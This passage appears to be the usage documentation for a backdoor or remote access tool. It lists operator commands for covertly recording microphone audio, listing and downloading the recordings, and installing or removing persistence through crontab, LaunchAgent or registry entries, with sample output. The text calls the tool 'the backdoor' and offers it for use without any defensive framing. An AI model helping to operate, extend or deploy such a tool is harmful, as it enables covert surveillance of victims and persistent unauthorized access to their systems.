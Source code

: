 #### Test Audio Recording

```
audio_record 10
```

Response: Records 10 seconds of audio from microphone and saves as WAV

```
audio_list
```

Shows: List of all recorded audio files

```
download logs/audio/audio_YYYYMMDD_HHMMSS.wav
```

Downloads the specified audio file

##### How It Works

1. **Audio Recording**: Records audio from the microphone for the specified duration and saves as WAV in logs/audio/
2. **Listing**: Shows all audio recordings available for download
3. **Download**: Allows retrieval of any audio file

##### Output Example

```
[+] Audio recorded: logs/audio/audio_20251003_145000.wav
Available audio files:
- audio_20251003_145000.wav
- audio_20241002_150030.wav
```

#### Test Persistence

```
persist_check
```

Response: Shows if persistence is installed and method used

```
persist_install
```

Response: Installs persistence (e.g., crontab, LaunchAgent, registry)

```
persist_remove
```

Response: Removes persistence and cleans up

##### How It Works

1. **Check**: Detects if persistence is active and which method is used
2. **Install**: Adds the backdoor to system startup (crontab, LaunchAgent, registry, etc.)
3. **Remove**: Deletes persistence entry and verifies removal

